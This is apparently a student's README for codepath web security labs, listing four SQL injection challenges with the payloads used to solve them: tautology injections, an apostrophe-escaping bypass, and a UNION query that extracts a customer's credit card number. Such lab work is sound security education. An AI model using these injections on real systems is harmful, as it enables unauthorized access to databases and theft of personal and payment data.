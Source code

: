 # Web-Securities-Labs
codepath Web Securities labs

## Week 2
SQL injections:
1) To complete this challenge, you must exploit SQL injection flaw in the following form to find the result key.

Please enter the Customer Id of the user that you want to look up: 
```SELECT * FROM customers WHERE customerId ="1" OR '1' = '1'; -- ";
```

2) To complete this challenge, you must exploit the SQL injection flaw in the following form to find the result key.

Please enter the Customer Email of the user that you want to look up:
```SELECT * FROM customers WHERE customerEmail ="samman@gmail.com' OR '1' = '1'; -- "@gmail.com
```

3) To complete this challenge, you must exploit SQL injection flaw in the following form to find the result key. The developer of this level has attempted to stop SQL Injection attacks by escaping apostrophes so the database interpreter will know not to pay attention to user submitted apostrophes.
```SELECT * FROM customers WHERE customerId ="2\' OR 1 = 1;-- ";
```

4) To complete this challenge, you must exploit a SQL injection issue in the following sub application to acquire the credit card number from one of the customers that has a customer name of Mary Martin. Mary's credit card number is the result key to this challenge.
```SELECT customerName from customers where customerName='Mary MArtin' Union select CreditCardNumber from customers where customerName="mary martin"; #
```
